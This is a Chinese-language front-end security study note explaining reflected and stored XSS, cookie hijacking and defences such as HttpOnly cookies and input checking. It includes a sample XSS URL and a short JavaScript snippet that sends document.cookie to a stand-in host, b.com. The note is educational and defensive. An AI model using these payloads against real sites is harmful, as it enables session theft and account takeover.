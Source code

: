 ```
nameModule.printName
```
**AMD 异步模块定义** 
***
## 前端安全问题

web常见攻击手段：

### 跨站脚本攻击（XSS）

#### 1.反射型XSS

它是通过诱使用户打开一个恶意链接，服务端将链接中参数的恶意代码渲染到页面中，再传递给用户由浏览器执行，从而达到攻击的目的。如下面的链接：

``http://a.com/a.jsp?name=xss<script>alert(1)</script>``

a.jsp将页面渲染成下面的html：

``Hello xss<script>alert(1)</script>``

这时浏览器将会弹出提示框。

这算是常见的一种方法，预防的话可以通过后台编写方法来拦截过滤到这些非法或有攻击性的字符。

#### 2.持久型XSS

持久型XSS将恶意代码提交给服务器，并且存储在服务器端，当用户访问相关内容时再渲染到页面中，以达到攻击的目的，它的危害更大。

比如，攻击者写了一篇带恶意JS代码的博客，文章发表后，所有访问该博客文章的用户都会执行这段恶意JS。

这个相对来说对我们开发网站来说不算重要，但是要小心攻击者在你网站注入一些非法代码，从而达到这个目的。

#### 3.Cookie劫持

Cookie中一般保存了当前用户的登录凭证，如果可以得到，往往意味着可直接进入用户帐户，而Cookie劫持也是最常见的XSS攻击。以上面提过的反射型XSS的例子来说，可以像下面这样操作：

首先诱使用户打开下面的链接：

``http://a.com/a.jsp?name=xss<script src=http://b.com/b.js></script>``

用户打开链接后，会加载b.js，并执行b.js中的代码。b.js中存储了以下JS代码：

```
var img = document.createElement("img");
img.src = "http://b.com/log?" + escape(document.cookie);
document.body.appendChild(img);
```

上面的代码会向b.com请求一张图片，但实际上是将当前页面的cookie发到了b.com的服务器上。这样就完成了窃取cookie的过程。

防御Cookie劫持的一个简单的方法是在Set-Cookie时加上HttpOnly标识，浏览器禁止JavaScript访问带HttpOnly属性的Cookie。

#### 4.XSS的防御

##### 输入检查

对输入数据做检查，比如用户名只允许是字母和数字，邮箱必须是指定格式。
一定要在后台做检查，否则数据可能绕过前端检查直接发给服务器。
一般前后端都做检查，这样前端可以挡掉大部分无效数据。
对特殊字符做编码或过滤，但因为不知道输出时的语境，所以可能会做不适当的过滤，最好是在输出时具体情况具体处理。
